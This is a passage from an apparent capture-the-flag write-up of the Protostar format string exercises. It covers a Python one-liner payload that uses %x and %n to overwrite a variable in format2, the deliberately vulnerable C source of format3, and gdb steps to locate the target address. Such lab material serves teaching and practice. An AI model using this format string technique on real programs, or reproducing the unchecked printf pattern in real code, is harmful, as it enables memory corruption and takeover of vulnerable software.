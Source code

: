 Exploit: (`format1 is really similar but easier`)

It's everything in the stack. Make some experiments by passing a series of `"%x "` to see how `sprintf` is looking for values in the stack, at some point you'll encounter the string (program `args` are in the stack), make some calculation, add the `address` of `target` (`\xe4\x96\x04\x08`)  and that's it.

```bash
python -c "print 'A'*4+ '\xe4\x96\x04\x08'*1 + 'A'*25 + '%x ' * 4 + '%n '" | ./format2
```

#### `(opt/protostar/bin/format3)`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

```
by running gdb and setting a breakpoint somewhere we obtain the address of target.
>> b *0x0804849d
>> run
AAAA
>> p &target
address of target: 0x080496f4
```
